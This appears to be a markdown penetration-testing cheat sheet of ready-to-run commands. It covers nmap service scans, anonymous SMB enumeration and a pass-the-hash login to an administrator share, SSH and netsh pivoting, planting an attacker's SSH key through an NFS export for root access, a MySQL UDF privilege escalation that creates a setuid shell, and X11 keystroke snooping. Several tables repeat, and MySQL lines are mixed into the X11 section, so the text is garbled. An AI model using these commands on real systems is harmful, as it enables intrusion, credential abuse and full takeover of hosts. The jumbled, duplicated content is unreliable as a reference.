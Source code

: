 
### Service Enumeration To Identify how Many TCP and UDP Port is being Opened

| Services Enumeration  |
| ------------- |
| nmap -Pn -n --open -p500  192.168.0.0/24 |
| nmap -Pn -n --open -p161  192.168.0.0/24 |
| nmap -Pn -n --open -p6000-6005 --script=x11-access 172.31.6.0/24  |
| nmap -Pn -n --open -p3389 --script=rdp-vuln-ms12-020,rdp-enum-encryption 172.31.6.0/24 |
| nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 |
| nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 | awk '/22\/open/ {print $2}' |


| Linxu and Microsoft RPC Enumeration  |
| ------------- |
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| smbclient -N -L \\\\10.10.10.103 |
| smbclient \\\\10.10.10.103\\C$ -U "Administrator" --pw-nt-hash f6b7160bfc91823792e0ac3a162c9267 |
| nmap -Pn -n --open -p3389 --script=rdp-vuln-ms12-020,rdp-enum-encryption 172.31.6.0/24 |
| nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 |
| nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 | awk '/22\/open/ {print $2}' |


| Linxu and Microsoft RPC Enumeration  |
| ------------- |
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| smbclient -N -L \\\\10.10.10.103 |

| Linxu and Microsoft RPC Enumeration  |
| ------------- |
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| smbclient -N -L \\\\10.10.10.103 |

| Linxu and Microsoft RPC Enumeration  |
| ------------- |
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| smbclient -N -L \\\\10.10.10.103 |


### Advanced SSH Tunneling and Port Forward

| Advanced SSH and Window Portproxy Tunneling and Port Forward |
| ------------- |
|ssh -L 127.0.0.1:8080:127.0.0.1:80 remotehost |
|ssh -nNT -L 8000:localhost:3306 user@pivoting host #Local Port Forwarding |
|ssh -nNT -R 0.0.0.0:4000:192.168.1.101:631 user@pivot host |
|ssh -D 5000 -nNT user@pivoting host #SOCKS Proxy|
|ssh -p 13339 -f -N j0hn@10.11.1.252  |
|ssh -N -f -D 8888 -p 22000 j0hn@192.168.13.252 |
|ssh -nNT -R 3389:localhost:3389 user@pivot host #Remote Port Forward |
|netsh interface portproxy add v4tov4 listenport=1111 listenaddress=10.100.11.101 connectport=1111 connectaddress=175.12.80.10|




| NFS Exported Shares|
| ------------- |
| showmount -e 192.168.100.25 #Check if any share is available |
| mount -t nfs 192.168.100.25:/home /tmp/NFS |
| mount -t nfs 192.168.1.112:/ /mnt -o nolock |
| mkdir -p /root/.ssh # We May Upload SSH Key to NFS |
| ssh-keygen -t rsa -b 4096 |
| cp /root/.ssh/hacker_rsa.pub /mnt/root/.ssh/ |
| cat authorized_keys |
| cat id_rsa.pub >> authorized_keys |
|ssh -i /root/.ssh/hacker_rsa root@192.168.1.112|



| MySQL UDF Privilge Escalation  |
| ------------- |
|gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc|
| use mysql; |
|create table npn(line blob); |
| insert into npn values(load_file('/tmp/raptor_udf2.so')); |
|select * from npn into dumpfile '/usr/lib/raptor_udf2.so';|
| create function do_system returns integer soname 'raptor_udf2.so'; |
| select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell'); |


### X 11  Commond Vulnerability

| How To Do   |
| ------------- |
| use auxiliary/scanner/x11/open_x11 |
| nmap -p 6000 --script=x11-access 192.168.2.26,75 |
|create table npn(line blob); |
| xdpyinfo -display 192.168.2.75:0 | head -n 5 |
|xspy -display 192.168.1.23:0 -delay 100|
| create function do_system returns integer soname 'raptor_udf2.so'; |
| select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell'); |


